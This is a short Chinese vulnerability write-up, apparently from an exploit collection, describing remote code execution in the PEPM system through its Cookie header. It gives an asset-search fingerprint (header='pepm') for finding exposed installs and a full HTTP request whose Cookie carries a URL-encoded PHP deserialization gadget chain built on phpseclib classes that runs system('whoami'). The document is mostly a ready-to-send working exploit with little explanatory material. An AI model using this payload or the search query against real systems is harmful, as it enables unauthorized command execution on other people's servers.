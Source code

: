 # PEPM系统Cookie请求头存在远程代码执行漏洞

# 一、漏洞简介
PEPM系统Cookie请求头存在远程代码执行漏洞

# 二、影响版本
+ PEPM

# 三、资产测绘
```plain
header="pepm"
```

![1722876330531-484a89d0-0030-4c38-8bd0-27e97936adc2.png](./img/tlp0y6fKN60Y2V4W/1722876330531-484a89d0-0030-4c38-8bd0-27e97936adc2-803339.png)

# 四、漏洞复现
```plain
GET / HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Cookie: auth=a%3A1%3A%7Bi%3A0%3BO%3A18%3A%22phpseclib%5CNet%5CSSH1%22%3A2%3A%7Bs%3A6%3A%22bitmap%22%3Bi%3A1%3Bs%3A6%3A%22crypto%22%3BO%3A19%3A%22phpseclib%5CCrypt%5CAES%22%3A8%3A%7Bs%3A6%3A%22bitmap%22%3Bi%3A1%3Bs%3A6%3A%22crypto%22%3Bi%3A1%3Bs%3A10%3A%22block_size%22%3BN%3Bs%3A12%3A%22inline_crypt%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A25%3A%22phpseclib%5CCrypt%5CTripleDES%22%3A6%3A%7Bs%3A10%3A%22block_size%22%3Bs%3A45%3A%221%29%7B%7D%7D%7D%3B%20ob_clean%28%29%3Bsystem%28%27whoami%27%29%3Bdie%28%29%3B%20%3F%3E%22%3Bs%3A12%3A%22inline_crypt%22%3BN%3Bs%3A16%3A%22use_inline_crypt%22%3Bi%3A1%3Bs%3A7%3A%22changed%22%3Bi%3A0%3Bs%3A6%3A%22engine%22%3Bi%3A1%3Bs%3A4%3A%22mode%22%3Bi%3A1%3B%7Di%3A1%3Bs%3A26%3A%22_createInlineCryptFunction%22%3B%7Ds%3A16%3A%22use_inline_crypt%22%3Bi%3A1%3Bs%3A7%3A%22changed%22%3Bi%3A0%3Bs%3A6%3A%22engine%22%3Bi%3A1%3Bs%3A4%3A%22mode%22%3Bi%3A1%3B%7D%7D%7D
Connection: close
```

![1722876371652-4bd33bb8-1302-438d-83bd-ef957bef3490.png](./img/tlp0y6fKN60Y2V4W/1722876371652-4bd33bb8-1302-438d-83bd-ef957bef3490-729318.png)



> 更新: 2024-08-12 17:15:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tqiapo8b4781kprv>
